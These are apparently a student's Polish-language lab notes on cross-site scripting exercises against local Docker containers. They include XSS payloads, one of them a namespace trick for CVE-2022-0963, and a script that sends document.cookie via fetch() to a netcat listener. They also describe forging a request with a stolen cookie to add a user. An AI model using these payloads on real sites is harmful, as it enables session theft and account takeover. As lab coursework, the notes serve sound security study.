









## Problem z podmanem (wymiana na Dockera)

https://medium.com/@nocerainfosec/docker-on-parrot-os-security-5-3-a-fresh-and-foolproof-installation-guide-5d8e9cd9e159

## Podniesienie kontenera z docker-compose podanym w pliku

`docker compose -f <nazwa_pliku_z_docker_compose>.yml up`

# XSS ([lab8.pdf]())

**Payloady** (a raczej ich kawałki w JS)

- `alert("Jakiś tekst")` → wyświetla okienko popup z treścią w nawiasach

- `document.cookie` → jeśli nie ustawiono flagi `HttpOnly`, wyświetla cookie

- `<script>`Kod w JS`</script>` → nesting skryptu w php/html

## Zadanie 9.1



- wchodzimy na serwer `localhost:9091/admin/index.php`

- dane do logowania są w docker compose: `admin:password`

- przechodzimy do tworzenia nowej ankiety

- w nazwie wpisujemy payload, np `a'<script>alert(document.cookie)</script>`

- przechodzimy do podglądu ankiety. Pojawia się okienko, ale puste. To dlatego, że w cookie jest ustawiona flaga `HttpOnly: true`

## Zadanie 9.2



- wchodzimy na serwer `localhost:9092/admin/index.php`

- `admin:password`

- sytuacja dokładnie taka sama jak powyżej

## Zadanie 9.3



- wchodzimy na serwer `localhost:9094/admin/index.php`

- `admin:password`

- WRÓCIĆ DO TEGO CUDEŃKA

## Zadanie 9.4



- `docker run -dp 9094:80 mazurkatarzyna/cwe-79-ex4:latest`

- Uruchamiamy aplikację na porcie 9094 localhosta

- Ustawiamy dane (np. a: a: a: a) i uruchamiamy instalację. Kontener o dziwo nie padł. 

- Zapoznajemy się z opisem podatności na huntr.dev: [CVE-2022-0963]([huntr - The world’s first bug bounty platform for AI/ML](https://huntr.com/bounties/a89a4198-0880-4aa2-8439-a463f39f244c)

- Przygotowujemy payload podobny jak do tego ze strony. Np.
  `<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.cookie)</x:script>`. Powyższe cudo wyświetli nam wszystkie pliki cookie ze strony.

- Aby wysłać coś na inny serwer, można posłużyć się [na przykład tym poradnikiem]([XMLHttpRequest: send() method - Web APIs | MDN](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/send). Ja spróbuję
  
  - uruchomić netcata na porcie 1111 localhosta
    `nc -l -p 1111` (na wszystkich interefjsach) lub `netcat -l 127.0.0.1 -p 1111` (tylko na localhost)
  
  - przygotować odpowiedni skrypt w javascripcie, np:
    
    ```
    <x:script xmlns:x="http://www.w3.org/1999/xhtml">
      fetch("http://127.0.0.1:1111/?cookie=" + encodeURIComponent(document.cookie))
    </x:script>
    
    ```
    
    

- Aby dodać do aplikacji nowego usera, trzeba podglądnąć request który to robi i spreparować taki sam wstawiając w odpowiednie miejsce wartość cookie. 
  
  

## Zadanie 9.5



## Zadanie 9.6



## Zadanie 9.7



## Zadanie 9.8


